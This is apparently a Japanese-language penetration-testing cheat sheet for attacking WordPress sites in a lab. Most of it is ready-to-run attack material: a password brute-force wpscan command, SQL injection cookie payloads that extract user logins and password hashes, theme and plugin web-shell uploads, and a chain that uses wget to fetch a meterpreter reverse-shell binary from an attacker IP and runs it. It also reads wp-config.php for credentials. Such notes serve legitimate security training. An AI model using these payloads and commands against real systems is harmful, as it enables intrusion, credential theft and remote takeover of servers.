

# WordPress

core、pluginどちらかの脆弱性となる。両軸で脆弱性の調査をするとよい

### Controlled-admin-access-plugin(CVE-2021-24215)

https://blog.nintechnet.com/vulnerabilities-fixed-in-wordpress-controlled-admin-access-plugin/

```
http://management_portal/wordpress/wp-admin/admin.php?page=%2Fcontrolled_admin_access
```

上記のようなURLでユーザ登録画面にアクセスができる。

### Wpscan

hosts設定をできれば事前にした方がいい

* パスワードリスト攻撃

```
sudo wpscan --url http://management_portal:80/wordpress/ -U access -P /usr/share/wordlists/rockyou.txt
```


#### Themeでのリバースシェル

URL形式

```
http://management_portal/wordpress/wp-content/themes/twentytwenty/404.php
```

リバースシェル

https://github.com/ivan-sincek/php-reverse-shell

↑windowsとlinuxどちらにも対応していてよい


### プラグインで脆弱性を検索

```bash
searchsploit --update
searchsploit elementor
searchsploit ocean-extra
searchsploit wp-survey-and-poll
searchsploit ocean
searchsploit survey poll
```


### Wordpress Plugin Survey & Poll 1.5.7.3

* 以下の画像のようなアンケートのプラグイン


* burpsuiteでcookieの脆弱性を悪用する

  

```
Cookie: wp_sap=["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]
```


### プラグインをアップロードしてwebシェルを取得する

```bash
cd /usr/share/seclists/Web-Shells/WordPress
sudo zip plugin-shell.zip plugin-shell.php
```

* zipファイルをプラグインとしてアップロードする




* webシェルにアクセスする

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
  ```

  ```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.153 LPORT=443 -f elf > shell.elf
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://192.168.119.153/shell_2.elf
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
  ```

  ```bash
  sudo msfconsole -q -x "use exploit/multi/handler;\
  >              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
  >              set LHOST 192.168.119.153;\
  >              set LPORT 443;\
  >              run"
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
  ```

※pluginのダウンロード先として以下もあり

http://10.11.1.251/wp/wp-content/uploads/2023/02/404.php


### wp-config.phpに認証情報がないか確認する

```bash
cat wp-config.php
```


